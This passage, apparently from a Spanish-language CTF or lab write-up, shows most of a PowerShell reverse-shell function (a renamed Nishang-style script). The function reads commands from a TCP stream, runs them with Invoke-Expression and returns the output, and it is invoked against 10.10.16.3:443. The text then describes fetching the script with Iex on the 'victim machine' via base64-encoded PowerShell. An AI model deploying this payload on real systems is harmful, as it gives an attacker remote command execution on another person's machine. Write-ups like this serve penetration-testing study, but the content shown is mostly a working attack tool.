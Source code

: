 ```powershell

        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
dalecontodo -Reverse -IPAddress 10.10.16.3 -Port 443
```

En la maquina victima ejecutaremos una peticion al script con `Iex` para que nos lo interprete, pero antes debemos hacerlo en un formato que windows entienda. Para ello usaremos `iconv` y lo transformaremos  a `base64` de este modo poder ejecutar la peticion con `powershell`
